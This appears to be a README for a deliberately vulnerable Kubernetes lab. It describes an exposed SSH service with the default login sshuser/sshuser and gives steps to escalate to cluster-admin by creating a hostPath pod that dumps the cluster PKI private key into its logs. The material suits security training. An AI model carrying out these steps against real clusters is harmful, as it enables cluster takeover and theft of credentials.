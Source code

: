 ## SSH to Cluster Admin

This cluster has an exposed SSH service running on port 32001/TCP to a pod in the cluster with cluster-admin rights.  To test this run

- `ansible-playbook ssh-to-create-pods-easy.yml`

Then get a note of the IP address of the Kubernetes cluster with 

```
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' sshcm-control-plane
```

Connect to your client container

```
docker exec -it client /bin/ash
```

and from there

```
ssh -p 32001 sshuser@[Kubernetes Cluster IP]
```

The password for the sshuser account is `sshuser`

## Compromising the cluster

3. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
4. `kubectl get po` will work and give you a list of pods in the default namespace
At this point there's several ways to achieve the goal, lets go with hostpath
5. Now we need to create a pod that dumps out the PKI private key `kubectl create -f keydumper.yml`
6. and the key should be in the logs `kubectl logs keydumper-pod`
7. profit!
